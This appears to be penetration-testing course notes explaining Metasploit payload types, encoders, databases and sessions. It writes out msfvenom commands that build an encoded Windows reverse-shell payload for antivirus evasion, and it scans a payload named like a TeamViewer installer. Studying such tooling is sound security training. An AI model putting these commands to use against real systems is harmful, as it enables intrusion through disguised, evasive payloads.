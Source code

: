 # Using the Metasploit Framework
- [MSF Components](#msf-components)
    - [Payloads](#payloads)
    - [Encoders](#encoders)
    - [Databases](#databases)
    - [Sessions](#sessions)
## MSF Components
### Payloads
- There are three different types of payload modules in the Metasploit Framework: Singles, Stagers, and Stages.

- Whether or not a payload is staged is represented by `/` in the payload name . For example, `windows/shell_bind_tcp` is a single payload with no stage, whereas `windows/shell/bind_tcp` consists of a stager (bind_tcp) and a stage (shell).

1. Singles
    - A Single payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one.
    - Singles are self-contained payloads.

2. Stagers
    - Stager payloads work with Stage payloads to perform a specific task. 
    - A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host.

3. Stages
    - Stages are payload components that are downloaded by stager's modules. 
    - The various payload Stages provide advanced features with no size limits, such as Meterpreter, VNC Injection, and others. 

- The Meterpreter payload is a specific type of multi-faceted payload that uses DLL injection to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes.


### Encoders

- Encoders assist with making payloads compatible with different processor architectures while at the same time help with antivirus evasion. 
- The use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

- Shikata Ga Nai (SGN) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore.

- Generating Payload - Without Encoding (using msfvenom): `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`
- Generating Payload - With Encoding: `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`

> [!TIP]
> We can put `-i 10` to multiple iterations of the same Encoding scheme.


- We can `msf-virustotal` to analyze our payloads: `msf-virustotal -k <API key> -f TeamViewerInstall.exe`


### Databases

- Databases in msfconsole are used to keep track of your results.
- Msfconsole has built-in support for the PostgreSQL database system.
- **Setting up the Database**
    1. We must ensure that the PostgreSQL server is up and running on our host machine: `sudo service postgresql status`
    2. Start PostgreSQL: `sudo systemctl start postgresql`
    3. MSF - Initiate a Database: `sudo msfdb init`
    - Recheck the status of the database: `sudo msfdb status`
    4. MSF - Connect to the Initiated Database: `sudo msfdb run`

> [!NOTE]
> If, however, we already have the database configured and are not able to change the password to the MSF username, proceed with these commands:
> ```
> abdeonix@htb[/htb]$ msfdb reinit
> abdeonix@htb[/htb]$ cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
> abdeonix@htb[/htb]$ sudo service postgresql restart
> abdeonix@htb[/htb]$ msfconsole -q
> 
> msf6 > db_status
> 
> [*] Connected to msf. Connection type: PostgreSQL.
> ```


### Sessions
- MSFconsole can manage multiple modules at the same time.
- **Using Sessions**:
    - Listing Active Sessions: We can use the `sessions` command to view our currently active sessions.
    - Interacting with a Session: `sessions -i 1`

- **Jobs**
    - We would need to use the jobs command to look at the currently active tasks running in the background and terminate the old ones to free up the port.
    - Running an Exploit as a Background Job: `exploit -j`
    - Use `jobs -l` to list all running jobs. 